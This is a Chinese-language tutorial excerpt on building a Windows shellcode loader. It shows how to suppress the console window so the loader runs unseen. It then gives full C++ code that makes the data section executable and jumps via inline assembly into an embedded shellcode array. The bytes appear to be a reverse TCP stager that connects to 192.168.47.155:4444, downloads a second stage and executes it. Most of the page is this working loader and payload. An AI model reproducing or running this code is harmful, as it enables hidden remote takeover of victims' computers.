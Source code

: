 # 去除黑框

当我们运行Shellcode加载器时会出现如下图所示的黑框，可采用以下方法去除它

<img src="shellcode加载器/image-20230612171819718.png" alt="image-20230612171819718" style="zoom:50%;" />	



将子系统设置为`窗口 (/SUBSYSTEM:WINDOWS)`

<img src="shellcode加载器/image-20230612172009161.png" alt="image-20230612172009161" style="zoom:67%;" />	



将函数入口点设置为`mainCRTStartup`

<img src="shellcode加载器/image-20230612172127151.png" alt="image-20230612172127151" style="zoom:67%;" />	



# 1.内联汇编加载

使用内联汇编只能加载32位程序的ShellCode，因为64位程序不支持写内联汇编

```cpp
#pragma comment(linker, "/section:.data,RWE") //将data段的内存设置成可读可写可执行
#include <Windows.h>

//ShellCode部分
unsigned char buf[] =
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x07\x01\xc7\x49\x75\xef\x52"
"\x8b\x52\x10\x57\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4c"
"\x01\xd0\x8b\x48\x18\x8b\x58\x20\x01\xd3\x50\x85\xc9\x74\x3c\x49"
"\x8b\x34\x8b\x31\xff\x01\xd6\x31\xc0\xc1\xcf\x07\xac\x01\xc7\x38"
"\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01"
"\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89"
"\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12"
"\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f"
"\x54\x68\xd2\x53\x6e\xfc\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29"
"\xc4\x54\x50\x68\x9c\x13\x41\xc4\xff\xd5\x6a\x0a\x68\xc0\xa8\x2f"
"\x9b\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
"\x68\x2c\x9b\xfc\xa4\x50\x58\xff\xd5\x97\x6a\x10\x56\x57\x68\xb6\x59\xc0"
"\x0e\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\xe8\xd9\xce\x36\xff\xd5\x83\xf8"
"\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68"
"\x9c\xed\x92\x66\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\xe8\xd9"
"\xce\x36\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a"
"\x00\x50\x68\x3e\xba\x17\xa3\xff\xd5\x57\x68\xe6\xfc\xe1\xe2\xff"
"\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xfc\xd3\xf4\x5e\x6a\x00\x53"
"\xff\xd5";

void main() {
    
	__asm {
		lea eax,buf    // 将buf的地址加载到eax寄存器
		call eax  // 使用call指令跳转到eax寄存器指向的地址（即buf），开始执行shellcode
	}
}
```
